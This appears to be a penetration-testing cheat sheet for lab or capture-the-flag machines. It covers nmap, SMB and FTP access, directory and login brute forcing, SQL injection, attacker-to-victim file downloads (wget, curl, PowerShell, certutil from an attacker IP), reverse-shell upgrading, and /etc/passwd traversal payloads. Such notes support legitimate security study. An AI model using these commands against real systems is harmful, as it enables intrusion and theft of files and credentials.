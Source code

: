 
- [Port Scanning](#psc)
- [21 - FTP Port](#ftp)
- [139/445 - Samba/SMB](#smb)
- [Directory Enumeration](#dir)
- [Login BruteForce](#log)
- [Sql Injection](#si)
- [File Transfer](#ft)
- [Upgrade Shell](#us)
- [File searching](#fts)
- [Directory Traversal](#dt)

## Port Scanning <a name='psc'></a>

### Nmap
- `-sV` shows the version of the service running on each port.
- `-sC` uses additional scripts to gather more information.
- `sS` stealth scan.
- `-p-` scans all ports. 
-  `-Pn-` Skip recognition phase.
- `-p <port>` scans only the specified port number. 
-  `-- open` only displays open ports.
- `--min-rate` Specifies the minimum number of packets Nmap should send per second; increasing this number speeds up the scan. 
```bash
nmap  -sS -sC -sV -p 21 10.129.42.253
```


## FTP Port <a name='ftp'></a>

### FTP

```bash
# anonymous login
ftp <machine-ip>
# username anonymous
# password anonymous
```

## Samba/SMB Port <a name='smb'></a>

### SmbClient 
It is a network protocol that allows users to communicate with remote computers and servers to use their resources or share, open, and edit files.

- `-U` access as user.
- `-N` No password.
- `-L` This option allows you to look at what services are available on a server.
```bash
smbclient -U bob \\\\10.129.42.253\\users
    
smbclient -N -L \\\\10.129.117.14\\
```

## Directory Enumeration <a name='dir'></a>

### Gobuster
It is a command-line tool used for performing brute-force scans or directory and subdomain enumeration on a website.
- To find subdirectories:
````bash
#wordlist example:/usr/share/wordlists/dirb/big.txt
#machine example: 10.10.192.23
gobuster dir -u <machine-ip> -w <wordlist> -o gobuster.out
````

- To find subdomains:
```bash
#wordlist example: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
#machine ip example: 10.10.192.25
gobuster vhost -w <wordlist> -u <machine-ip> -o gobuster.out
````

## Login Bruteforce <a name="log"></a>

##### ffuf

```bash
# wordlist = rockyou.txt
ffuf -u http://<machine-ip>/login-page.php -X POST -d '{"user":"FUZZ", "pass":"FUZZ"}' -w wordlist
```

## SQLInjection <a name="si"></a>
For more information consult [[SQL]].

- [SqlMap](https://sqlmap.org/)

```bash
# capture the login request with burp and save it as login.req
sqlmap -r login.req --level=5 --risk=3 --batch

# manual expoitation
> Capture the request with burp
> The entered paramaters will be url encoded, decode it with <ctrl>+<shift>+<u>
> Enter the payload " ' or 1 = 1 -- - " (simple sql injection payload)
> After changing the payload, url encode it with <ctrl>+<u>
```

## File Transfer <a name="ft"></a>

```bash 
# between *nix os

# on the attacker machine
python3 -m http.server 8081

# on the victim machine
wget http://<attacker-ip>:<port>/<file>
curl http://<attacker-ip>:<port>/<file> -o <output-file>

#===========================================================#

# from linux to windows

# on the attacker machine
# creates a anonymous login
sudo smbserver.py <share-name> <linux-path> -smb2support

# on the victim machine
copy \\<attacker-ip>\<share-name>\<file> <copy-path-in-windows>
# mount the share in windows
net use x: \\<attacker-ip>\<share-name> /user:<user-name> <password>
copy x:\<file> <copy-path-in-windows>

# from external url
# sometimes fails
powershell -c (new-object System.Net.WebClient).DownloadFile('http://<attacker-ip>/<file>','<download-path-in-windows>')

# works mostly
#@alias
iwr -uri 'http://<attacker-ip>/<file>' -o '<download-path-in-windows>'
#@cmdlet
powershell.exe -command Invoke-WebRequest -Uri 'http://<attacker-ip>/<file>' -OutFile '<download-path-in-windows>'

# using certutil
certutil -urlcache -f 'http://<attacker-ip>/<file>' '<download-path-in-windows>'
```


## Upgrade Shell <a name='us'></a>

When we do a reverse shell, sometimes, we will need to upgrade our shell.

- Specifically, what it does is establish a new interactive terminal with advanced features, such as full control of function keys, command history, and the ability to use commands like Ctrl+C and Ctrl+Z. This can be useful in situations where greater interactivity is needed in a limited shell session.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo  
fg  
export TERM=xterm
```

## File searching <a name='fs'></a>

### find

Parameters:
- `-name <pattern>`: Matches files or directories with a specific name pattern.
- `-type <type>`: Matches files or directories of a specific type (e.g., `f` for regular files, `d` for directories, `l` for symbolic links).
- `-size <size>`: Matches files based on their size. For example, `+10M` matches files larger than 10 megabytes.
- `-mtime <time>`: Matches files based on their modification time. For example, `-mtime -7` matches files modified within the last 7 days.
```bash
# Use 2>/dev/null if you don't want to see errors output
find [path] [expression] 2>/dev/null
```


## Directory Traversal <a name='dt'></a>

The attack typically takes advantage of insufficient input validation or sanitization mechanisms. By manipulating the input, an attacker can traverse directories and access sensitive files that should not be directly accessible. This could include system files, configuration files, or even user data.

For example, if a web application allows users to download files by specifying a file name in the URL, an attacker could provide a malicious input such as "../../../etc/passwd" to traverse up the directory tree and access the password file.

That can be useful if, for example, the web has a php file with a variable called `filename`.
In this case, we could make a request attempting to access other files, such as /etc/passwd.

```bash
http://example.com/?filename=../../../../../../etc/passwd
```
In some cases the php code can be blocking this attack switching "../" with "". In this case we could try to do:
```bash
http://example.com/?....//....//....//....//....//etc/passwd
```
Sometimes, if the previous method doesn't work, it can be useful to URL-encode the request or URL-encode it twice.
```bash
..%25df..%25df..%25df..%25df..%25df..%25df..%25df..%25dfetc/passwd
```